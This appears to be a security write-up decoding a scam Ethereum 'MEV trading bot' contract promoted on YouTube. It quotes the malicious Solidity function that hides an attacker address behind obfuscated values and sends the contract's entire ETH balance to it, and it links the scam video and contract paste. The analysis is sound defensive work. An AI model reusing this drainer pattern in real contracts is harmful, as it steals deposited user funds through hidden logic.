 ## Malicious Solidity Decoded
A recent incident involving a scam, promoted via a YouTube video about an Ethereum trading bot claiming to employ MEV (Maximal Extractible Value) techniques, underscores the critical importance of auditing and vetting any smart contracts associated with trading bots, especially those discovered through platforms like YouTube. 

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. This case highlights the essential need for thorough scrutiny and validation of smart contracts behind such trading bots, to prevent falling victim to sophisticated scams that exploit the complexity and novelty of blockchain technologies.


#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's what happens, summarized:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.